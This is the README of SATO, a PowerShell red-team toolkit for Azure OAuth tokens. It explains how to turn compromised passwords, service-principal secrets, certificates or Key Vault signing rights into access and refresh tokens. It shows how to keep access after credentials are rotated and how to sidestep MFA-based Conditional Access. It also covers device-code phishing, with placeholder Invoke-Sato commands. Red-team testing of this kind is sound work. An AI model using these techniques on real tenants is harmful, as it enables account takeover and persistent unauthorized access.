 # SATO (Secure Azure Token Operations)

**SATO**  is a specialized toolkit designed to assist a red teamer in effectively managing Azure tokens, enabling advanced manipulation of oauth 2.0 grant types used in Azure authentication mechanisms. This tool was built with offensive operations in mind, where tokens play a critical role in maintaining access and persistence in cloud environments.

## Why SATO?

Azure assessments often present scenarios where credentials or certificates might be exposed, such as compromised passwords, service principal secrets, or certificates. If the opposite side is aware of the compromise and changes these credentials, tokens like access or refresh tokens remain valid until they expire. **SATO** capitalizes on this, offering red teams a way to continue their operations by working directly with these tokens.

Moreover, **tokens can bypass Conditional Access Policies (CAP)** that enforce Multi-Factor Authentication (MFA) based on factors such as location and some others. CAPs are checked during authentication, while an **access token** is used for authorization. Since tokens are issued post-authentication, they can bypass such controls, making them a powerful tool for persistence.

**SATO** helps you exchange various pieces of authentication information (like passwords, client secrets, certificates, or permissions such as Key Vault signing) for valid **access** and **refresh tokens**. This approach ensures that even if primary credentials are invalidated, tokens can be leveraged to maintain access until they naturally expire, thereby maintaining operational continuity during engagements.

## Key Features

- **Token Acquisition & Persistence**:
   - Exchange compromised credentials or certificates for  access and refresh tokens, ensuring continued access.
   - Leverage tokens to bypass certain Conditional Access Policies that enforce MFA or location-based restrictions.
  
- **Dynamic Grant Types**:
   - Supports multiple OAuth2 flows, including:
     - `client_credentials`
     - `password`
     - `refresh_token`
     - `device_code`
     - `jwt_assertion` and `jwt_assertion by key vault sign` (for certificates and Key Vault-based JWT signing)
  
- **Advanced JWT Signing**:
   - Sign JWTs using a compromised certificate or through Azure Key Vault signing permissions, giving flexibility depending on the environment being 

- **Predefined Scopes**:
   - Easily select common Azure scopes (like **Microsoft Graph**, **Office 365**, or **Azure Key Vault**) through predefined options, simplifying the process of token requests.
  
- **In-Depth JWT Analysis**:
   - Decode and analyze JWT tokens to understand the permissions granted, token expiration, and key claims, which are essential for understanding the scope and longevity of the access gained.
 



# SATO - Secure Azure Token Operations


## Getting Started

### Installation

To use **SATO**, follow these steps:

1. Clone the repository from GitHub:
    ```bash
    git clone https://github.com/obikuro/Sato.git
    ```

2. Import the module in PowerShell:
    ```powershell
    Import-Module .\Sato\SATO.psd1
    ```

---

## Available Grant Types

The following **OAuth2 grant types** are supported by SATO:

- **`client_credentials`**: Used when interacting with service principals (SPs)
- **`password`**: Exchanges a username and password for tokens.
- **`refresh_token`**: Uses a refresh token to obtain a new access token.
- **`device_code`**: Interactive login -- device code phishing
- **`jwt_assertion`**: Uses certificates private key for token acquisition.
- **`jwt_assertion_sign`**: Signs a JWT using Azure Key Vault signing permissions for token acquisition.

### Grant Type Parameter

```bash
-GrantType <grant_type>
```


## Predefined Scopes

SATO offers predefined scopes for ease of use. These cover various Microsoft services such as Microsoft Graph, Azure Management, and more. You can select a predefined scope using the `-PredefinedScope` parameter.

- **MsGraph**: New Microsoft Graph
- **MSTeams**: Microsoft Teams
- **Office**: Office 365
- **Outlook**: Microsoft Outlook
- **WinGraph**: Old Microsoft Graph
- **CoreARM**: Classic Azure Resource Manager provider
- **MaARM**: Azure Resource Manager provider
- **IntuneMam**: Intune Mobile Application Management
- **SharePoint**: SharePoint
- **OneDrive**: OneDrive
- **KeyVault**: Azure Key Vault


## Examples

### Client Credentials Flow

This flow is used when you have access to a service principal's client ID and secret.

```powershell
Invoke-Sato -GrantType "client_credentials" -TenantID "target-tenant-id" -ClientID "target-SP-id" -ClientSecret "target-SP-secret" -PredefinedScope WinGraph
```

### Password Flow
Use this flow to exchange a username and password for an access token.

```powershell
Invoke-Sato -GrantType "password" -TenantID "target-tenant-id"  -Username "user@domain.com" -Password "target-user-password" -PredefinedScope WinGraph
```
### Refresh Token Flow
Use a refresh token to obtain a new access token.

```powershell
Invoke-Sato -GrantType "refresh_token" -TenantID "target-tenant-id"  -RefreshToken "target-refresh-token" -Scope "<https://management.azure.com/.default>"
```

### JWT Assertion Flow
For scenarios where you want to use a compromised SP certificate's private key to obtain an access token.

```powershell
Invoke-Sato -GrantType "jwt_assertion" -TenantID "target-tenant-id" -AppID "target-sp-id" -CertificatePath "C:\\path-to\\cert.pfx"
```

- `-CertificatePath`: This parameter is used to specify the file path to a certificate (e.g., `.pfx` file). 
  
- `-Certificate`: Use this parameter when you already have a certificate object loaded in memory (e.g., from a previous import or operation). 


### JWT Assertion Sign with Key Vault
For red teams using Azure Key Vault to sign JWT tokens.

```powershell
Invoke-Sato -GrantType "jwt_assertion_sign" -TenantID "target-tenant-id" -AppID "target-sp-id" -KeyVaultName "key vault-name" -CertName "certificate-name" -KeyToken "keyvault-access-token"
```
When using the jwt_assertion_sign option, you must have signing permissions on an Azure Key Vault. This method takes advantage of Key Vault's signing capabilities to sign a crafted jwt token and exchange it for a valid Azure token.


### Device Code Flow
use this grant for device code phishing scenarios

```powershell
Invoke-Sato -GrantType "device_code" -TenantID "target-tenant-id"  -Scope "<https://graph.microsoft.com/.default>"
```


## Important Notes

### Use of `-UseCAE`

The `-UseCAE` flag is used to enable Continuous Access Evaluation (CAE). When you specify `-UseCAE`, the CAE claim (`cp1`) will be included in the token, allowing you to maintain a token with an extended validity window. 

### Family of Client IDs (FOCI)
By default, SATO uses a Microsoft client ID, which is part of the Family of Client IDs (FOCI). This allows for seamless multi-tenant access without providing a client secret.





